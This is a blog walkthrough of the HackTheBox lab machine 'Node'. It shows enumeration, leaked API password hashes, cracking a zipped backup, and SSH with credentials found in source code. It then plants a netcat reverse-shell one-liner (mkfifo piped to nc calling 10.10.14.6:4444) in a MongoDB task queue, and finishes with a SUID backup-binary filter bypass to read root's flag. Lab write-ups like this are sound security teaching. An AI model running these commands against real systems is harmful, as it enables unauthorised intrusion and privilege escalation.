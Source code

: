 ```yaml
---
layout: post
title: Hackthebox Node Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/node-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box "Node".<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.58 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 21:28 EEST
Nmap scan report for 10.10.10.58
Host is up (0.040s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: /login
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.96 seconds
{% endhighlight %}


## 2. Getting User

We can find a NodeJS website on port 3000.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-35-11.png)

Using Burp Suite, we can find an interesting HTTP request to "/api/users/latest".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-40-44.png)

Then, access to the API.<br>
We can see some passwords for user "tom", "mark" and "rastating".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/latest | jq
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

Next, try "/api/users".<br>
We can find an admin user "myP14ceAdm1nAcc0uNT".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/ | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

We can crack the password using <a href="https://crackstation.net/">Crackstation.net</a>.<br>
The cracked password is "manchester".
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-21-57-05.png)

We can download a file "myplace.backup" base64 encoded.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-07/2020-04-05-22-00-44.png)

Try to decode with base64 command.
{% highlight shell %}
root@kali:~# cat myplace.backup | base64 --decode > myplace
root@kali:~# file myplace
myplace: Zip archive data, at least v1.0 to extract
{% endhighlight %}

Since the zip file is password protected, try to brute-force using "fcrackzip".<br>
The password is "magicword".
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:

root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()
{% endhighlight %}

Then, unzip the archive.
It looks like a source code of a NodeJS web application.
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:
  inflating: var/www/myplace/package-lock.json
  inflating: var/www/myplace/node_modules/serve-static/README.md
  inflating: var/www/myplace/node_modules/serve-static/index.js

---
{% endhighlight %}

Take a look at the source code.<br>
In "/var/www/myplace/app.js", we can find a mongodb credential for user "mark".
{% highlight shell %}
root@kali:~/var/www/myplace# cat app.js | grep mongo
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
    console.log('[!] Failed to connect to mongodb');
{% endhighlight %}

We can use the credential for SSH connection.
{% highlight shell %}
mark:5AYRft73VtFpc84k
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh mark@10.10.10.58
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.




              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
{% endhighlight %}

However, we are still not capable of getting user.txt.<br>
We have other 2 users.
{% highlight shell %}
mark@node:/home$ ls -l
total 12
drwxr-xr-x 2 root root 4096 Aug 31  2017 frank
drwxr-xr-x 3 root root 4096 Sep  3  2017 mark
drwxr-xr-x 6 root root 4096 Sep  3  2017 tom
{% endhighlight %}

If take a look at the processes, we can see 2 processes by another user "tom".
{% highlight shell %}
mark@node:~$ ps aux | grep tom
tom       1211  0.0  5.8 1074616 44232 ?       Ssl  19:31   0:03 /usr/bin/node /var/scheduler/app.js
tom       1231  0.0  6.6 1024156 50068 ?       Ssl  19:31   0:04 /usr/bin/node /var/www/myplace/app.js
mark      1610  0.0  0.1  14228  1020 pts/0    S+   23:05   0:00 grep --color=auto tom
{% endhighlight %}

Using the following command, we can access the command line interface of MongoDB.<br>
Also it is possible to insert reverse shell command.
{% highlight shell %}
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost/scheduler
MongoDB shell version: 3.2.16
connecting to: localhost/scheduler
> db.tasks.insertOne( { cmd: "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.6 4444 >/tmp/f" } );
{
        "acknowledged" : true,
        "insertedId" : ObjectId("5e8b80f878ddbff46dfcb0d7")
}
> exit
bye
{% endhighlight %}

Launch a netcat listener.
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...

{% endhighlight %}

After a few minutes, we can get a reverse shell as user "tom".
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.58] 38860
bash: cannot set terminal process group (1230): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@node:/$ id
id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
{% endhighlight %}

user.txt is in the directory "/home/tom".
{% highlight shell %}
tom@node:/$ cd /home/tom
cd /home/tom
tom@node:~$ ls
ls
user.txt
tom@node:~$ cat user.txt
cat user.txt
e1156acc3574e04b06908ecf76be91b1
{% endhighlight %}


## 3. Getting Root

With the following command, we can find a binary file "/usr/local/bin/backup"
{% highlight shell %}
tom@node:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
{% endhighlight %}

Also, we can find a way to use this executable in the previous script "/var/www/myplace/app.js".<br>
The "backup_key" is also in this code.
{% highlight shell %}
200   app.get('/api/admin/backup', function (req, res) {
201     if (req.session.user && req.session.user.is_admin) {
202       var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
203       var backup = '';
{% endhighlight %}

This time, we can bypass the filter of the binary with the following way.
{% highlight shell %}
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip
<0afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip    

tom@node:/tmp$ unzip -P magicword flag.zip
unzip -P magicword flag.zip
Archive:  flag.zip
 extracting: root/root.txt
{% endhighlight %}

Now we extracted the root.txt
{% highlight shell %}
tom@node:/tmp$ cat root/root.txt
cat root/root.txt
1722e99ca5f353b362556a62bd5e6be0
{% endhighlight %}
